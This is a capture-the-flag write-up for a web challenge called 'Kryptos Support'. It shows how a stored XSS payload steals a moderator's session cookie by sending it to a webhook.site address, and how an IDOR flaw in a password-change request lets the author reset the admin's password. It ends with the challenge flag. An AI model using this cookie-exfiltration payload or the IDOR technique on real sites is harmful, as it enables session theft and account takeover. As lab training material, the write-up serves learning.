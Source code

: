 # Kryptos Support

## Challenge

```
The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission.
Ulysses performed an initial recon at their request and found a support portal for the vault.
Can you take a look if you can infiltrate this system?
```

Category: Web

Points: 300

## Writeup

When we launch the challenge's site, the first thing we see is a form to submit a support ticket and a login form.

| Support form (`/`)                  | Login form (`/login`)           |
| ----------------------------------- | ------------------------------- |
| ![Support form](images/support.png) | ![Login form](images/login.png) |

After an inspection of the pages, we have found that after the login, we have redirected to the `/tickets` page (not accessible if not authenticated), but we can't find any obvious way to bypass the login.

So we'll have to use the support form.

Let's try an XSS attack on it with the following code to get the moderator cookies:

```html
"><img src=x onerror="javascript:document.location='https://webhook.site/<your-webkook>?c='+document.cookie"></img>
```

The result is unbelievable: IT WORKS! And on the first try!

The cookies are:

```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjQwODZ9.B1LGelnlcJ07YUbS4gEJzLJl2Q1zDG5BDkL2q86ppuw
```

The session cookie is a JWT token with the following payload:

```json
{
  "username": "moderator",
  "uid": 100,
  "iat": 1652624086
}
```

At first, we thought to crack the JWT token and change the `uid` value, but we decided to take this as last option.

After we set the session cookie on our browser, we can access the `/tickets` page without problems and see all the submitted tickets.

After an hour of trying to complain about what the vault ids shown on the page can be, we realized that they probably are useless, so we start to search again.

In the top left corner of the page, we can see a link to a `/settings` page where we can change the logged user password.

For first we have changed the moderator password to something known: `aaa`.

Analyzing the request for the password change, we can see that with the new password, is sent the `uid` of the logged user:

```json
{
  "password": "aaa",
  "uid": 100
}
```

And the response is:

```json
{
  "message": "Password for moderator changed successfully!"
}
```

At this point, we can try to change the `uid` in the request and see what happens:

```json
{
  "password": "aaa",
  "uid": 1
}
```

And the response is:

```json
{
  "message": "Password for admin changed successfully!"
}
```

BINGO!

Now not only do we know that exists a user named `admin`, but we also know his password: `aaa`.

If we try to login as `admin`, the flag is shown after login:

![Flag](images/flag.png)

## Flag

```
HTB{x55_4nd_id0rs_ar3_fun!!}
```
